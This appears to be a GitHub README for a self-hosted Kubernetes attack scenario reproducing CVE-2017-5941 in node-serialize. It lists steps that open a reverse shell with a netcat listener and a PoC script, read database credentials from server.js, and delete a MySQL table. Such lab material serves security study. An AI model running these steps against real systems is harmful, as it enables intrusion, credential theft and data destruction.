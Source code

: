 ## CVE-2017-5941
https://nvd.nist.gov/vuln/detail/CVE-2017-5941#range-6741888 \
Target Application: Node \
Software Link: https://www.npmjs.com/package/node-serialize \
Version: 0.0.4 \
Writeup: https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/ \
Used PoCs: 
* https://packetstormsecurity.com/files/161356/Node.JS-Remote-Code-Execution.html
* https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/

### Steps to Reproduce

1- `minikube start` \
2- Use `kubectl apply -f <filename>` for all of the .yaml files in kube folder \
3- Forward port `kubectl port-forward pods/scenario-2-server-deployment-.... 4242:4242` \
4- Listen on port `1234` and your ip for TCP connections like `nc -l 144.122.139.40 1234` \
5- Run poc.py with your ip `./poc.py 144.122.139.40` \
6- Attacker runs `ls` and sees a file named `server.js` which includes database hostname, username, password, database name and important table called `person`
7- Attacker runs `mysql -h mysql-service -u user -p` then inputs the password to access the database \
8- Even though the output of Mysql is not seen, input is sent to the container. With this, the attacker can delete the person table with ease.

### Demo
[scenario-2.webm](https://github.com/HasanYldz/kubernetes-attack-scenarios/assets/56763025/c3188a89-8977-418b-aac8-c46c4197edbb)


### Kubernetes
Check https://learnk8s.io/deploying-nodejs-kubernetes for deployment tutorial
